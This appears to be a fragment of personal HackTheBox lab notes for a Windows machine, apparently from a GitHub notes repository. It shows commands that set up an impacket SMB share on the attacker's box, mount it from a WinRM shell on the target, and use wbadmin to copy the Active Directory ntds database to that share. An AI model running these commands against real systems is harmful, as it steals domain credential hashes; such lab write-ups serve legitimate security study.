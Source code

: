 ![](https://github.com/RachHavoc/HTB-Notes/blob/main/HackTheBox/Windows/attachments/Pasted%20image%2020250110200617.png)
Use #impacket #smbserver to set up a share on attacker box.

```
sudo smbserver.py -smb2support -user ippsec -password PleaseSubscribe SendMeYoData $ (pwd)
```

![](https://github.com/RachHavoc/HTB-Notes/blob/main/HackTheBox/Windows/attachments/Pasted%20image%2020250110201022.png)

Access this local share from remote win-rm shell 

```
net use x: \\10.10.14.2\SendMeYoData /user: ippsec PleaseSubscribe
```

![](https://github.com/RachHavoc/HTB-Notes/blob/main/HackTheBox/Windows/attachments/Pasted%20image%2020250110201148.png)

Now get wbadmin to send the ntds backup file to our impacket share. 

```
wbadmin start backup -backuptarget:\\10.10.14.2\SendMeYoData -include:c: \windows\ntds\
```
